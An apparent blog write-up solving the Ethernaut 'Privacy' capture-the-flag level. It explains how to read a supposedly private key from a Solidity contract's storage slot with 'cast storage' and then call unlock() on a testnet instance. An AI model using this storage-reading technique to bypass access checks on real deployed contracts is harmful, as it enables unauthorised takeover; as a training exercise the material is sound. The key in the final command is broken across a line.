 ```yaml
---
title: Ethernaut - Privacy - Solution
date: '2024-05-10'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Privacy CTF
---
```


# Ethernaut - Privacy - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
    */
}
```

## Solution

The goal of this level is to set `locked` to `false`.

A prerequisite for this level is to [understand the storage layout of smart contracts](https://medium.com/@ozorawachie/solidity-storage-layout-and-slots-a-comprehensive-guide-2cee71817ed8).

Looking at the above contract, we see that the last element of the `data` array (`data[2]`) is stored in the storage slot with index 5. 
More specifically, the storage layout looks like this:
- Slot 0: `locked`
- Slot 1: `ID`
- Slot 2: `flattening`, `denomination`, and `awkwardness`
- Slot 3: `data[0]`
- Slot 4: `data[1]`
- Slot 5: `data[2]`

So, to get the correct `_key`, we need to read the first 34 characters (2 for the `0x` and 32 for the first 16 bytes) of the value stored in slot 5.

```bash
cast storage <your level instance> 5 --rpc-url $SEP_RPC_URL | cut -c 1-34
# Result: 0x0f09b23d6279de8f8e7fc60d468bf0fb
```

Subsequently, we can unlock the contract via:

```bash
cast send <your level instance> "unlock(bytes16)" 0x0f09b23d6279de8f8e7fc60d468bf
0fb --rpc-url $SEP_RPC_URL --private-key <your private key>
```